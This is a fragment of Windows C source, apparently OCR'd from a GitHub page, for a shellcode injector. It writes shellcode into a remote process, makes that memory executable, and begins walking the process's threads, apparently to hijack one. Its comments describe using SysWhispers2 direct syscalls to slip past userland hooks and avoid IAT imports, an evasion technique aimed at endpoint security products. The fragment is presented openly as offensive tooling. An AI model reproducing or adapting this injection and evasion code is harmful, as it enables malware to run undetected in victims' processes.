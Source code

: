 ```c
    // pNtWriteVirtualMemory NtWriteVirtualMemoryFunc = (pNtWriteVirtualMemory)GetProcAddress(GetModuleHandleA("ntdll"), "NtAllocateVirtualMemory");
    // NTSTATUS  WriteProcessMemoryStatus = NtWriteVirtualMemoryFunc(hProc, shellcodeBaseAddress, shellcode, szShellcode, NULL);

    /* Direct syscall with Syswhisper2 to avoid userland hooks. */
    NTSTATUS WriteProcessMemoryStatus = NtWriteVirtualMemory(hProc, shellcodeBaseAddress, shellcode, szShellcode, NULL);
    if (WriteProcessMemoryStatus != 0) {
#ifdef _DEBUG
        printf("Writing the shellcode memory to remote process using WriteProcessMemory failed: %x\n", WriteProcessMemoryStatus);
#endif
        return 1;
    }

    // Switch the protection of the shellcode's memory section to PAGE_EXECUTE_READ to execute the shellcode.
    DWORD OldProtectt = 0;

    /* Standard API. */
//    BOOL virtualProctectExStatus = VirtualProtectEx(hProc, shellcodeBaseAddress, sizeof(shellcode), PAGE_EXECUTE_READ, &OldProtectt);
//    if (!virtualProctectExStatus) {
//#ifdef _DEBUG
//        printf("Switching the protection of shellcode memory to PAGE_EXECUTE_READ using VirtualProtectEx failed: %x\n", GetLastError());
//#endif
//        return 1;
//    }

    /* ntdll direct call (to avoid an import in the IAT). */
    //pNtProtectVirtualMemory NtProtectVirtualMemoryFunc = (pNtProtectVirtualMemory)GetProcAddress(GetModuleHandleA("ntdll"), "NtProtectVirtualMemory");
    //NTSTATUS virtualProctectExStatus = NtProtectVirtualMemoryFunc(hProc, &shellcodeBaseAddress, &szAllocated, PAGE_EXECUTE_READ, &OldProtectt);

    /* Direct syscall with Syswhisper2 to avoid userland hooks. */
    NTSTATUS virtualProctectExStatus = NtProtectVirtualMemory(hProc, &shellcodeBaseAddress, &szAllocated, PAGE_EXECUTE_READWRITE, &OldProtectt);

    if (virtualProctectExStatus != 0) {
#ifdef _DEBUG
        printf("Switching the protection of shellcode memory to PAGE_EXECUTE_READ using VirtualProtectEx failed: %x\n", NtProtectVirtualMemory);
#endif
        return 1;
    }

    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
    HANDLE threadHandle = NULL;
    CONTEXT context;
    context.ContextFlags = CONTEXT_FULL;

    if (Thread32First(snapshot, &threadEntry)) {
        do {
            if (threadEntry.th32OwnerProcessID == tpid) {
                OBJECT_ATTRIBUTES ObjectAttributes;
                CLIENT_ID ClientId;
                InitializeObjectAttributes(&ObjectAttributes, NULL, NULL, NULL, NULL);
                ClientId.UniqueProcess = (PVOID)tpid;
                ClientId.UniqueThread = (PVOID)threadEntry.th32ThreadID;
```